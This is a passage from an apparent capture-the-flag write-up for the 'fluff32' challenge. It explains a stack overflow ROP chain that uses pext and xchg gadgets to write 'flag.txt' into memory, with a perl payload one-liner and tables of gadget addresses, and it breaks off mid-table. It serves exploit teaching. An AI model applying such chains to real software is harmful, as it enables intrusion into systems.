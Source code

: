 Now that we have all the details, we'll try to test ourselves by attempting to transfer the first character ("f") and trying to open the file. Of course, this will likely fail (unless the file is named `f`), but if we get the message that there is no file named `f`, it means the character was successfully transferred, and we can add the rest in the same way.

In summary, for the test, we want to input:
* 44 garbage bytes
* To make `pop ecx` (`0x08048558`) with the address to `.data`, in big-endian due to `bswap` (`0x0804a018`)
* To make `pop ebp` (`0x080485bb`) with the mask for the character "f" (`0x4f454b4b`)
* Activation of the gadget that handles `edx` (`0x08048543`)
* Activation of the gadget that writes to memory (`0x08048555`)
* A call to `print_file`, as usual.

```
perl -e 'print "X"x44 . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x55\x85\x04\x08" . "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```
![](./7.png)

It worked. Now we will build the ROP chain for the entire string "flag.txt" in the same way.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [ecx], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Logical Part | Chain Link                          | Note                                                                                                                                                                                                                                                                                |
|----|--------------|-------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 1            | 44 garbage bytes                    |                                                                                                                                                                                                                                                                                     |
| 2  | 2            | pop_bswap_cx, `memory4string`       | `memory4string` in big-endian.                                                                                                                                                                                                                                                      |
| 3  | 2            | pop_bp, get_mask(`"f"`)             | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xb0bababa` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | 2            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 5  | 2            | exchange_byte                       | After this operation, the string will be `"f"`                                                                                                                                                                                                                                      |
| 6  | 3            | pop_bswap_cx, `memory4string+1`     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                                    |
| 7  | 3            | pop_bp, get_mask(`"l"`)             |                                                                                                                                                                                                                                                                                     |
| 8  | 3            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |